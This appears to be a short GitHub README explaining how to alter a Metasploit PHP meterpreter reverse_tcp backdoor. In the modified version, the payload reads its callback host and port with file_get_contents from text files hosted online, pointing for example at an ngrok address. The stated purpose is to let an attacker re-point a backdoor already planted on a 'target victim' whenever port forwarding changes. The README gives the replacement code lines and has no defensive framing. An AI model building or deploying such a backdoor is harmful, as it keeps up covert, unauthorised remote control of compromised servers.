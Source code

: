 # Metasploit-Payload-PHP-Backdoor-Func

metasploit payload 'php/meterpreter/reverse_tcp' file_get_content

### look at line 4 through line 11, there you see the original source code on line 6 and line 7, and replace it like line 10 and line 11.

- $ip = file_get_contents ("url");

- $port = file_get_contents ("url");

Explanation: file_get_contents is to get the contents of the URL, so we create a file:

- host.txt (contains "0.tcp.ngrok.io")

- port.txt (contains "port", for example "13337")

and the file, uploaded to Hosting or Online storage.

### Why use file_get_contents?
Because, when the backdoor is installed and used in the target victim, we cannot change the IP: Port, when Port Forwarding is down or experiencing problems, we only need to change the contents of the file host.txt and port.txt in Hosting or Online Storage, and backdoor in the target victim will read the new contents of the file, and therefore we can make it change as we wish.
